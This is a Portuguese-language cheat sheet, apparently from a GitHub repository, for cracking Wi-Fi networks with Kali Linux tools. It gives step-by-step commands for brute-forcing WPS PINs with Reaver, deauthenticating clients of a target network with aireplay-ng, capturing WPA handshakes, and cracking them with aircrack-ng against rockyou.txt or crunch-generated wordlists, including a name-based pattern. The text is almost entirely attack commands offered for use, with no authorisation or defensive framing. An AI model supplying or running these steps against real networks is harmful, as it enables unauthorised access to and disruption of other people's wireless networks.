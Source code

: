 # Wifi Hacking -- Kali Linux
### (by Walysson dos Reis)
---------------------
### WPS Cracking com Reaver
* `airmon-ng check kill` - Interrompe processos que estejam utilizando a placa wifi
* `airmon-ng start wlan0` - Coloca a interface wifi wlan0 em modo de monitoramento
* `wash -i wlan0mon` - Ativa descoberta de redes disponivel na interface wlan0mon
* `reaver -i mon0 -c 1 -b 00:00:00:00:00:00 -vv` - Inicie o reaver inserindo interface, canal e bssid da rede alvo
* `reaver -i mon0 -c 1 -b 00:00:00:00:00:00  -vv -L -N -d 15 -T .5 -r 3:15` - Reavear com parâmetros de intervalo opcional

### Hacking Wifi WPA-PSK com Aircrack
* `airmon-ng check kill` - Interrompe processos que estejam utilizando a placa wifi
* `airmon-ng start wlan0` - Coloca a interface wifi wlan0 em modo de monitoramento
* `airodump-ng wlan0mon` - Usado para descoberta de redes disponivel na interface wlan0mon
* `wash -i wlan0mon` - Usado para descoberta de redes disponivel na interface wlan0mon em realação ao WPS
* `airodump-ng --bssid 00:00:00:00:00:00 -c 1 --write ArqCAP wlan0mon` - Inicia o modo de captura da rede alvo 
* `aireplay-ng --deauth 100 -a 00:00:00:00:00:00 wlan0mon` - Em outro terminal com modo de captura rodando execute para derrubar a rede alvo
* Ao retornar ao terminal de captura verifique se houve captura do pacote se for exibido a mensagem "WPA handshake"
* Com pacote com a senha capturado devemos usar Wordlists para tentar quebrar a senha
* /usr/share/wordlists/rockyou.txt.gz - Wordlist padrão do Kali Linux
* `gzip -d rockyou.txt.gz` - Descompacta o arquivo de wordlist deletando o arquivo zipado
* `aircrack-ng ArqCap-01.cap -w rockyou.txt` - Inicia o processo de teste de senha utilizando o arquivo de wordlist
* `grep -E '^.{8,63}$' < rockyou.txt >> rockyou_wpa_passwd.txt` -  Filtra o arquivo rockyou para senhas WPA/WPA2 (8-63 caracteres)

### Crunch : Gerador de Wordlist
* `crunch <min> <max> [opções] ` - Uso padrão do Crunch
*  lowUP123 @% # (letras minúsculas, letras maiúsculas, números e símbolos) - Ordem de Charset no Crunch
* Principais parâmetros do crunch:
    * -b: Tamanho máximo da lista de palavras (requer -o START)
    * -c: números de linhas para escrever na lista de palavras (requer -o START)
    * -d: limita o número de caracteres duplicados
    * -e: para de gerar palavras em um determinado string
    * -f: especifica uma lista de conjuntos de caracteres do arquivo charset.lst
    * -i: inverte a ordem dos caracteres na lista de palavras
    * -l: permite a interpretação literal de @,% ^ ao usar -t
    * -o: o arquivo de lista de saída
    * -p: imprime permutações sem repetir caracteres (não pode ser usado com -s)
    * -q: Como a opção -p, exceto a leitura das sequências de um arquivo especificado
    * -r: retoma uma sessão anterior (não pode ser usada com -s)
    * -s : especifique uma string específica para iniciar a lista de palavras com
    * -t: define um padrão específico de @,% ^
    * -z: comprime o arquivo da lista de saída, acompanhado de -o
 * Refência do crunch:
    * @ representa letras minúsculas
    * , representa letras maiúsculas
    * % representa números
    * ^ representa caracteres especiais
 * `crunch 4 6 1234567890 -o /root/numerica6-8.txt` - Exemplo de geração de lista
 * `crunch 9 9 1234567890 -t maria@@@@ -o /tmp/wordlist-maria.txt` - Exemplo de geração de lista
 * Charset.lst: /usr/share/crunch/charset.lst
    * Conjunto de caracteres disponíveis no charset.lst:
      * lalpha: apenas letras minúsculas
      * ualpha: apenas letras maiúsculas
      * lalpha-numeric: letras minúsculas e números
      * ualpha-numeric: letras maiúsculas e números
      * lalpha-numeric-all-space: letras minúsculas, números e caracteres especiais como ?, ;, :, espaço, etc.;
      * ualpha-numeric-all-space: letras maiúsculas, números e caracteres especiais como ?, ;, :, espaço, etc.;
      * mixalpha: letras minúsculas e maiúsculas;
      * mixalpha-numeric-all-space: letras maiúsculas, minúsculas, números, caracteres especiais e espaço. 
* `crunch 4 8 -f charset.lst mixalpha -o /root/lista-com-charset.txt` - Exemplo de geração de lista
* `crunch 8 8 -f charset.lst mixalpha-numeric-all-space -t @@abc@@@ -o /root/wordlist-gigante.txt` - Exemplo de geração de lista
* `crunch 4 4 -f charset.lst mixalpha-numeric-all-space -o /root/thekingwordlist4-4.txt` - Exemplo de geração de lista
* `crunch 8 8 abcdefghijklmnopqrstuvxz 1234567890 | aircrack --bssid 00:1D:AA:9D:27:AC -w- 'root/handshakes/Cafelocuraceb-00:1D:AA:9D:27:AC.cap` - Exemplo de geração
--------
## Referências
https://outpost24.com/blog/wps-cracking-with-reaver  
https://cienciacomputacao.com.br/tutorial/como-hackear-wi-fi-wpa2-psk-com-kali-linux/  
https://www.cyberpratibha.com/blog/how-do-i-use-rockyou-wordlist-txt-in-kali-linux/  
https://deadpackets.wordpress.com/2012/11/11/wireless-fun-crackeando-wpawpa2/
https://nsworld.com.br/crunch-gerador-de-wordlist/  
https://nsworld.com.br/aircrack-ng-pacote-de-ferramentas-para-monitorizar-e-analisar-redes-sem-fio/
https://nsworld.com.br/cracking-wpa-com-aircrack-ng/  


